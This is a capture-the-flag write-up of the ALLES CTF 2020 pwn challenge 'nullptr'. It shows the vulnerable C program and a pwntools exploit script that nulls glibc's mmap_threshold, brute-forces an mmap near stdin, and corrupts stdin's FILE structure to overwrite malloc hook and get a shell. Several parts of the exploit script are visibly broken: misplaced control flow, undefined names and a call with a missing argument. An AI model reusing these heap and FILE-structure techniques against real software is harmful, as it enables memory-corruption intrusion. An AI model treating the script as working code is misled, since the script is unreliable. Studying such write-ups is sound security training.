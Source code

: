 ```yaml
---
title: nullptr - ALLES CTF 2020
date: 2020-09-09 23:08:25
author: Cyb0rG
author_url: https://twitter.com/_Cyb0rG
categories:
  - Pwn
  - File Structure

tags:
  - ALLESCTF
  - File Structure
---
```


**tl;dr**

+ Overwrite `mmap_threshold` with null and trim top chunk size.
+ Null out last 2 bytes of stdin's `_IO_buf_base` and brute force to get allocation on stdin.
+ Overwrite one of the jump tables with win function to get shell.

<!--more-->

**Challenge Points:** 453
**Solves:** 4

We had a really great time this weekend with this year's edition of Alles CTF. I spent most of my time working on the challenge nullptr and in this post , I'll be discussing the intended solution for the challenge.

**PS:** We could not solve this during the CTF but the exploit idea is worth sharing.

## Challenge description

To begin with , we'd been provided with a pretty simple c source code which has 2 functionalities.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void get_me_out_of_this_mess() { execl("/bin/sh", "sh", NULL); }

int main(void) {
    unsigned long addr;
    int menuchoice;
    while (1) {
        printf("[1. view, 2. null, -1. exit]> \n"); fflush(stdout);
        scanf("%d", &menuchoice); getc(stdin);
        switch (menuchoice) {
        case 1:
            printf("view address> \n"); fflush(stdout);
            scanf("%lu", &addr); getc(stdin);
            printf("%p: %p\n", addr, *(void**)addr);
            break;
        case 2:
            printf("nuke address> \n"); fflush(stdout);
            scanf("%lu", &addr); getc(stdin);
            *(void**)addr = NULL;
            printf("ok!\n");
            break;
        case -1:
            printf("bye!\n");
            return 1;
        default:;
        }
    }
    return 0;
}

```

1. The view function prints the content of an address passed , hence we can be assured of all leaks ;).
2. The nuke function nulls out the content of an address passed.

Looks pretty simple doesn't it?

## Getting necessary leaks

Getting all required leaks is nothing but a trivial task.

Initially, we can directly get stack leak by passing any `non-numeric` value to scanf. Let's script it a bit.

```python

from pwn import *
import sys

HOST = 'dwadwda'
PORT = 123
LIBC = ELF("./libc.so.6",checksec = False)
while True:
    if(len(sys.argv)>1):
        io=remote(HOST,PORT)
        context.noptrace=True
    else:
        io=process('./nullptr',env = {"LD_PRELOAD" : "./libc.so.6"})

    reu = lambda a : io.recvuntil(a)
    sla = lambda a,b : io.sendlineafter(a,b)
    sl = lambda a : io.sendline(a)
    rel = lambda : io.recvline()
    sa = lambda a,b : io.sendafter(a,b)
    re = lambda a : io.recv(a)
    s = lambda a : io.send(a)

    def null(addr):
        sla(']> \n','2')
        sla('nuke address> \n',str(addr))

    def malloc(libc):
        base = libc + 0x1ea9b8
        null(base)

    if __name__=="__main__":
        sla(']> \n','1')
        reu('address> \n')
        s(p8(1))
        stack = int(re(14),16)
        libc = getdata(stack-0xd8) - 0x271e3
        code = getdata(stack-0x18) - 0x10ce
        log.info('stack = ' + hex(stack))
        log.info('libc = ' + hex(libc))
        log.info('code = ' + hex(code))
```

## Idea of exploitation

After carefully analyzing scanf's source code, sherl0ck came up with the idea of calling **malloc** again by `nulling` out `IO_buf_base`.

In the depths of scanf ,there resides a function called IO_doallocbuf.

```c
  if (fp->_IO_buf_base == NULL)
    {
      /* Maybe we already have a push back pointer.  */
      if (fp->_IO_save_base != NULL)
	{
	  free (fp->_IO_save_base);
	  fp->_flags &= ~_IO_IN_BACKUP;
	}
      _IO_doallocbuf (fp);
    }

```

The code is actually of the caller function of `_IO_doallocbuf` which is `_IO_new_file_underflow`.

It calls malloc with a fixed size of `blk_sizet` which is by default 0x1000 bytes.

From this point on , we were stuck , we tried nulling out the last 2 bytes of buf base in the hope of getting allocation at tcache structure , from there on we faked a 0x400 size arbitrary chunk in tcache and found another way to call malloc with size of 0x400 from stdout structure.

Well , getting allocation with stdout doesn't actually give us arbitrary write.

## The intended solution

Well , the intended solution is actually leveraging an mmap call from malloc. Let's see how this can be done.

+ Nulling out `mmap_threshold` with triggers a different code path in malloc.
+ Also , trimming top size by writing null misaligned finally calls mmap when malloc is invoked.

Now , all that we have to do is , brute force until an mmap happens near our stdin file structure and from there on , its a game over.

Let's take our script forward.

```py
        buf_base = libc + 0x1ea9b8
        input_buffer = getdata(buf_base)
        TARGET_REGION = libc + 0x1ea000
        TARGET_HOOK_OFFSET = 0xb70
        TARGET_STDIN_OFFSET = 0x980
        _IO_2_1_stdin_ = libc + LIBC.symbols['_IO_2_1_stdin_']
        mmap_threshold_ = libc + 0x1ea280
        MAIN_ARENA_TOP_CHUNK_PTR = libc_base + 0x1eabe0
        top_chunk = getdata(MAIN_ARENA_TOP_CHUNK_PTR + 8)
        _IO_stdfile_0_lock = libc_base + 0x1ed4d0
        __GI__IO_file_jumps = libc_base + 0x1ec4a0
        MASK = 0xffffffffffff0000
        if TARGET_REGION & MASK != TARGET_REGION:
            log.failure("Restart exploit")
            io.close()
        continue
        else:
            break
       #Null out top chunk partially keeping the inuse bit
       #Null out mmap_threshold and next malloc should call mmap
       null(mmap_threshold + 16) 
       null(top_chunk + 8 + 1)

       # malloc will now be mmap!
       # We keep calling mmap from malloc and bruteforce for getting allocation at stdin
       for _ in range(200):
           malloc(libc)
           input_buffer = getdata(_IO_2_1_stdin_ + 8 * 3)
           if (input_buffer & MASK) == TARGET_REGION:
               log.success('Hit')
               break

      
```

Once there's a hit , all that's left is to partially overwrite `IO_buf_base` and get allocation on stdin. Here , after getting allocation on stdin , we intend to overwrite malloc hook to get shell.

```py
        #Now we partially overwrite io buf base of stdin
        null(_IO_2_1_stdin_ + 8*7 - 6)
        _s = TARGET_STDIN_OFFSET
        data = p64(0xfbad2088) + p64(TARGET_REGION)*6 + p64(0)*5 + p64(0) + p8(0) + p64(_IO_stdfile_0_lock) + p32(0) + p64(__GI__IO_file_jumps)
        data = data.ljust(TARGET_HOOK_OFFSET,'x')

        sla(data)
        #overwritten malloc hook
        #call malloc to get shell
        malloc(libc)
        io.interactive()

```

### An alternative approach

We could be all lazy and let brute force do the work. A simpler yet time consuming approach would be to overwrite the last 3 bytes of stdin's `IO_buf_base` and wait for the magic to happen. Eventually , in one of the runs , it would match with binary bss and you get a direct write to GOT table.

## Conclusion

The challenge had really intersting concepts involved and we learnt quite alot. Kudos to the author Mrmaxmeier for the awesome challenge.

Here's the original script of the author - [Link](https://gist.github.com/Mrmaxmeier/830561d4a732b0af24bf29d685a9f74f)

